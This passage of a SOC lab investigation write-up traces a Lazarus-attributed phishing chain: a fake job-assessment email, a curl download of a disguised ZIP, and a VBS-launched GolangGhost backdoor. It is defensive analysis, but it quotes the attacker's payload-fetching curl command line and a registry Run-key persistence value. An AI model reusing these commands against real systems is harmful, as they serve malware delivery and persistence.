

The infection chain documented there matched this investigation exactly:

On **Windows**, a VBS script downloads and executes the **GolangGhost backdoor** via NodeJS. The implant enables remote control and data theft, including browser credential exfiltration.



The blog also documented the persistence mechanism: a registry key named `NvidiaDriverUpdate` under:

```
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
Value: wscript.exe C:\Users\[USERNAME]\AppData\Local\Temp\nvidia-drivers\update.vbs
```

I checked the **Registry Explorer**, that specific key was **not found** in this instance. It's possible persistence was either not yet established, or a variant of the mechanism was used.




### Additional curl Event - S3 Download

Using the detection opportunity from the SEKOIA blog, I searched for `curl` activity and found an earlier event at **2025-03-07 00:25:04**:

```
CommandLine: "C:\Windows\system32\curl.exe" -k -o "C:\Users\LetsDefend\nvidiaupdate.zip" 
https://files-ld.s3.us-east-2.amazonaws.com/nvidiaupdate.zip
```

This was followed by a DNS query from `curl.exe` resolving `files-ld.s3.us-east-2.amazonaws.com` to multiple AWS S3 IPs.


### Registry Modifications - WMIADAP.EXE

Several WMI-related registry modifications were recorded at **2025-03-07 00:25:07**, all attributed to `WMIADAP.EXE` running as `NT AUTHORITY\SYSTEM`. These touched `HKLM\SOFTWARE\Microsoft\Wbem\PROVIDERS\Performance` and compiled MOF resources from system drivers including `kernelbase.dll`, `ACPI.sys`, and `mssmbios.sys`.

While these registry changes can reflect **legitimate WMI maintenance activity**, their timing (immediately preceding the PowerShell extraction) warranted documentation. Taken in isolation, they are not conclusive. In the context of the broader attack chain, they are part of the artifact record.


After completing the header and artifact analysis, I deleted the email from Ellen's inbox.



---

## Conclusion

The investigation confirmed a **Lazarus Group phishing intrusion** targeting Ellen via a fake Coinbase hiring assessment. The full attack chain unfolded as follows:

1. Phishing email delivered from `trevorgreer9312@gmail.com` via SMTP `152.89.61.96`
2. Ellen visited `https://blockchainjobhub.com/invite/E3fM8yF7` - a Lazarus-tagged domain
3. `curl.exe` downloaded `nvidiaupdate.zip` from `api.drivercams.cloud` with TLS verification disabled
4. PowerShell extracted the archive to `C:\Users\LetsDefend\nvidiadrive`
5. Ellen manually executed `update.vbs` via `wscript.exe`
6. PowerShell initiated outbound connections - consistent with GolangGhost backdoor staging
7. Files `update.vbs`, `gobatch.bat`, and `minictadriver.sys` extracted and confirmed malicious

The host was isolated and the email was deleted.




---

## Playbook Execution

### Parse Email

| Question | Answer |
|---|---|
| When was it sent? | 2025-03-06 04:15:00 |
| SMTP address? | 152.89.61.96 |
| Sender address? | `trevorgreer9312@gmail.com` |
| Recipient address? | `Ellen@letsdefend.io` |
| Is the mail content suspicious? | Yes |
| Are there attachments? | None observed |

### Are there attachments or URLs in the email?

The email appeared to contain no visible attachment. However, a **suspicious hyperlink** was embedded in the email body:

```
https://blockchainjobhub[.]com/invite/E3fM8yF7
```

This link was not visually apparent when the email was opened in Thunderbird, but it surfaced during endpoint investigation as the URL Ellen visited - the entry point that led to the malicious ZIP download. The playbook flagged this as the suspicious URL, and in retrospect, it was the most critical pivot point in the entire chain.

